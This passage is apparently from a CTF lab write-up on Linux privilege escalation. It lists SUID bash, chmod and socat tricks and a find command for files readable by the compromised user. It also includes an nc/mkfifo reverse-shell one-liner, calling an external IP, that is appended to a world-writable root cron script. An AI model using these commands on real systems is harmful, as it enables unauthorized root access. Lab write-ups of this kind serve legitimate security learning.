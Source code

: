 "/bin/bash" stood out, we can execute bash with privileges.

`/bin/bash -p` .

<figure><img src=".gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

The flags are in base64 format.

### Method 2

`/bin/chmod` - we can just chmod for&#x20;

### Method 3

The socat binary: check gtfobin.

### Method 4

When you `cat /etc/crontab` - there is a script running every minute as root, and everyone has access and can modify it, so we just edit and put a reverse shell in it.

`echo "mkfifo /tmp/kirxhbg; nc 10.18.88.214 4445 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg" >> /var/backups/script.sh` .

### Method 5

#### Priv Esc from www-data to elyana

The hint.txt file in the elyana home directory says to look for elyana credentials which is hidden in the system somewhere. So the best way to do this is to find all files owned by "elyana" and is readable by the "www-data" user.

{% code overflow="wrap" lineNumbers="true" %}
```bash
find / -user elyana -type f -readable -exec ls -ald {} \; 2>/dev/null

# outputs
-rw-r--r-- 1 elyana elyana 220 Apr  4  2018 /home/elyana/.bash_logout
-rw-rw-r-- 1 elyana elyana 59 Oct  6  2020 /home/elyana/hint.txt
-rw-r--r-- 1 elyana elyana 807 Apr  4  2018 /home/elyana/.profile
-rw-r--r-- 1 elyana elyana 0 Oct  5  2020 /home/elyana/.sudo_as_admin_successful
-rw-r--r-- 1 elyana elyana 3771 Apr  4  2018 /home/elyana/.bashrc
-rwxrwxrwx 1 elyana elyana 34 Oct  5  2020 /etc/mysql/conf.d/private.txt
```
{% endcode %}
